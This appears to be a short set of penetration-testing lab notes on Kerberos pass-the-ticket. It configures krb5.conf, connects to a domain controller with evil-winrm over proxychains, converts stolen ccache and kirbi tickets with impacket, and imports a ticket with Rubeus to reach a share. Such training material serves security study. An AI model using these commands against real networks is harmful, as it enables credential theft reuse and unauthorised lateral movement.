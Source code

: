 
## Kerberos Configuration File for a domain
```
Suljov@htb[/htb]$ cat /etc/krb5.conf

[libdefaults]
        default_realm = <domain>

<SNIP>

[realms]
    INLANEFREIGHT.HTB = {
        kdc = <dc host>.<domain>
    }

<SNIP>
```
Now we can use evil-winrm.


## Using Evil-WinRM with Kerberos
```
proxychains evil-winrm -i <dc host/host> -r <domain>
```


## Miscellaneous
If we want to use a ccache file in Windows or a kirbi file in a Linux machine, we can use impacket-ticketConverter
```
https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py
```
to convert them. To use it, we specify the file we want to convert and the output filename. Let's convert Julio's ccache file to kirbi.

## Impacket Ticket Converter
example 
```
impacket-ticketConverter krb5cc_647401106_I8I133 <user>.kirbi
```
We can do the reverse operation by first selecting a .kirbi file. Let's use the .kirbi file in Windows.



## Importing Converted Ticket into Windows Session with Rubeus
```
Rubeus.exe ptt /ticket:c:\<path>\zuser>.kirbi
```
then you can for example do 
```
dir \\<dc host/host>\user>
```
